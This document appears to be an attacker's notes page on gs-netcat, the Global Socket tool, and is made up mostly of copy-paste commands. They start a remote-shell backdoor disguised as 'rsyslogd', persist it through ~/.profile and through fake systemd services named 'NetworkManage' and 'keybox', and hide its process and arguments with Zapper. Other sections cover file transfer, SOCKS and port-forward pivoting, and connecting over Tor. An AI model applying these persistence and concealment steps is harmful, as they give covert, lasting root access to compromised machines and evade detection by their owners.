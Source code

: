 # gs-netcat

### Overview

The Global Socket Tookit allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

More on [https://www.gsocket.io](https://www.gsocket.io).

### Non Persistent backdoor

```
$(GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /path/to/gs-netcat")
```

### Client Connection

```
gs-netcat -i -s MySecret
```

* Above will spawn a full pty giving you the option to tab complete and use up arrow as long as CTRL+C

### Persisting the Server .profile

The following line in the user's \~/.profile starts the backdoor (once) when the user logs in. All in one line:

The '( )' brackets start a sub-shell which is then replaced (by exec) with the gs-netcat process. The process is hidden (as rsyslogd) from the process list.

```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret -liqD" SHELL=/bin/bash exec -a rsyslogd /path/to/gs-netcat)
```

* Ensure there are no syntax errors or the next time a user logs in they will see this message&#x20;

```
ssh root@ubuntu.space
root@ubuntu.space's password: 
Last login: Mon Dec 30 19:29:55 2024 from 192.168.15.172
-bash: /root/.profile: line 11: syntax error: unexpected end of file
```

* when you are connected to the backdoor this is how your process will look&#x20;

```
1 S root         442       1  0  80   0 -   794 do_wai 19:43 ?        00:00:00 rsyslogd
1 S root         443     442  0  80   0 -   829 do_sel 19:43 ?        00:00:00  \_ rsyslogd
0 S root         528     443  0  80   0 -  2105 do_sel 19:47 pts/4    00:00:00      \_ -bash
```

* above will occur no matter how you connect to the server

```
gs-netcat -s MySecret
gs-netcat -s -i MySecret
```

### Persisting the Server systemd (Not Hidden)

* create secret file&#x20;

```
gs-netcat -g >/etc/systemd/gs-root-shell-key.txt
chmod 600 /etc/systemd/gs-root-shell-key.txt
cat /etc/systemd/gs-root-shell-key.txt
abc123
```

* create service file&#x20;

```
create /etc/systemd/system/NetworkManage.service
```

```
[Unit]
Description=Network Manager
Documentation=man:NetworkManager(8)
Wants=network.target
After=network-pre.target dbus.service
Before=network.target 

[Service]
Type=simple
Restart=always
RestartSec=10
WorkingDirectory=/
ExecStart=/opt/gs-netcat -k /etc/systemd/gs-root-shell-key.txt -il

[Install]
WantedBy=multi-user.target
```

<pre><code># ensure it does not exist first 
ls -lartF /etc/systemd/system/NetworkManage.service
# create the file
echo "[Unit]" >> /etc/systemd/system/NetworkManage.service
<strong>echo "Description=Network Manager" >> /etc/systemd/system/NetworkManage.service
</strong>echo "Documentation=man:NetworkManager(8)" >> /etc/systemd/system/NetworkManage.service
echo "Wants=network.target" >> /etc/systemd/system/NetworkManage.service
echo "After=network-pre.target dbus.service" >> /etc/systemd/system/NetworkManage.service
echo "Before=network.target" >> /etc/systemd/system/NetworkManage.service 
echo "" >> /etc/systemd/system/NetworkManage.service
echo "[Service]" >> /etc/systemd/system/NetworkManage.service
echo "Type=simple" >> /etc/systemd/system/NetworkManage.service
echo "Restart=always" >> /etc/systemd/system/NetworkManage.service
echo "RestartSec=10" >> /etc/systemd/system/NetworkManage.service
<strong>echo "WorkingDirectory=/" >> /etc/systemd/system/NetworkManage.service
</strong>echo "ExecStart=/opt/gs-netcat -k /etc/systemd/gs-root-shell-key.txt -il" >> /etc/systemd/system/NetworkManage.service
echo "" >> /etc/systemd/system/NetworkManage.service
echo "[Install]" >> /etc/systemd/system/NetworkManage.service
echo "WantedBy=multi-user.target" >> /etc/systemd/system/NetworkManage.service

cat /etc/systemd/system/NetworkManage.service
</code></pre>

* after created

```
systemctl start NetworkManage.service
systemctl enable NetworkManage.service
systemctl status NetworkManage.service
```

* this is not great because the secret file path or the secret with -s will show up as \*\*\*\*\*\*\*\*\*\*\* in the process list

### Persisting the Server systemd (Zapper)

* Zapper is a great tool to hide your cmdline options
* pull the tool from&#x20;
* example service file, zapper is keybox and gs-netcat is crond in the below example
* make sure it doesnt exist first&#x20;

```
ls -lartF /etc/systemd/system/keybox.service
```

```
[Unit]
Description=OpenBSD Keybox Service
Documentation=man:keybox(8) man:keybox_config(2)
After=network.target auditd.service

[Service]
Type=oneshot
ExecStart=/usr/libexec/keybox -f -a '[cpuhp/0]' -n0 /sbin/crond -liqD -s abc123 &
KillMode=process
Restart=on-failure
RestartPreventExitStatus=255

[Install]
WantedBy=multi-user.target
Alias=keybox.service
```

* quick paste

```
echo "[Unit]" >> /etc/systemd/system/keybox.service
echo "Description=OpenBSD Keybox Service" >> /etc/systemd/system/keybox.service
echo "Documentation=man:keybox(8) man:keybox_config(2)" >> /etc/systemd/system/keybox.service
echo "After=network.target auditd.service" >> /etc/systemd/system/keybox.service
echo "" >> /etc/systemd/system/keybox.service
echo "[Service]" >> /etc/systemd/system/keybox.service
echo "Type=oneshot" >> /etc/systemd/system/keybox.service
echo "ExecStart=/usr/libexec/keybox -f -a '[cpuhp/0]' -n0 /sbin/crond -liqD -s abc123 &" >> /etc/systemd/system/keybox.service
echo "KillMode=process" >> /etc/systemd/system/keybox.service
echo "Restart=on-failure" >> /etc/systemd/system/keybox.service
echo "RestartPreventExitStatus=255" >> /etc/systemd/system/keybox.service
echo "" >> /etc/systemd/system/keybox.service
echo "[Install]" >> /etc/systemd/system/keybox.service
echo "WantedBy=multi-user.target" >> /etc/systemd/system/keybox.service
echo "Alias=keybox.service" >> /etc/systemd/system/keybox.service
```

* after creating the service file (make sure to alter the key

```
systemctl start keybox.service
systemctl enable keybox.service
systemctl status keybox.service
```

### Command Console

* If you connect to a listening gs-netcat server with the below options you will have access to the command console

```
gs-netcat -i -s MySecret 
```

* access it with CTRL+E c, you will see the below

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

* this nicely provides a way to upload and download files as well as local commands just like in metasploit i.e. lls lcd

### Proxies

#### Server to act as a SOCKS4/4a/5 server:

```
gs-netcat -s MySecret -l -S
```

Client to listen on TCP port 1080 and forward any new connection to the server's SOCKS server:

```
gs-netcat -s MySecret -p 1080
```

#### TCP Port Forward all connections to 192.168.6.7:22

Server:

```
gs-netcat -s MySecret -l -d 192.168.6.7 -p 22 
```

Client to listen on TCP port 2222 and forward any new connection to the the server. The server then forwards the connection to 192.168.6.7:22.

```
gs-netcat -s MySecret -p 2222
ssh -p 2222 root@127.0.0.1
```

The same using 1 command:

```
ssh -o ProxyCommand='gs-netcat -s MySecret' root@ignored
```

### Tor Client Connection

* For the best security you should always connect to the server via tor
* Start tor in one window&#x20;

```
tor
gs-netcat -i -s MySecret -T
```
